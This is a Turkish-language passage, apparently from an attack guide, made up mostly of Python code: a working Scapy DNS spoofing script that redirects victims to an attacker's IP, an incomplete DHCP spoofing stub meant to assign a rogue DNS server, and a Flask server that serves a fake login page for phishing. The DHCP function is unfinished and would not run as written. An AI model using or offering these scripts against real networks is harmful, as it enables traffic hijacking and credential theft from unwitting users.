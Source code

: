 Bu betik, DNS sorgularını yakalar ve sahte yanıtlarla kurbanı yönlendirir.

```python
from scapy.all import *

def dns_spoof(packet):
    if packet.haslayer(DNSQR) and packet[DNS].qr == 0:
        spoofed_ip = "192.168.1.100"  # Saldırganın IP’si
        spoofed_packet = IP(dst=packet[IP].src, src=packet[IP].dst)/                         UDP(dport=packet[UDP].sport, sport=53)/                         DNS(id=packet[DNS].id, qr=1, aa=1, qd=packet[DNS].qd,
                             an=DNSRR(name=packet[DNS].qd.qname, ttl=10, rdata=spoofed_ip))
        send(spoofed_packet, verbose=0)

sniff(filter="udp port 53", prn=dns_spoof)
```

---

### DHCP Manipülasyon Betiği

Bu betik, sahte DHCP teklifleriyle istemcilere yanlış bir DNS sunucusu atar (DDSpoof benzeri).

```python
from scapy.all import *

def dhcp_spoof(packet):
    if packet.haslayer(DHCP) and packet[DHCP].options[0][1] == 1:  # Keşif (Discover)
        fake_dns = "192.168.1.100"
        # Sahte DHCP yanıtı oluşturma
        # send(dhcp_offer) gibi bir yapı gerektirir

sniff(filter="udp and (port 67 or 68)", prn=dhcp_spoof)
```

---

### Sahte Web Sunucusu

Kimlik avı veya sahte içerik sunmak için bir web sunucusu oluşturun.

- Flask’ı kurun: `pip install flask`

```python
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('fake_login.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```
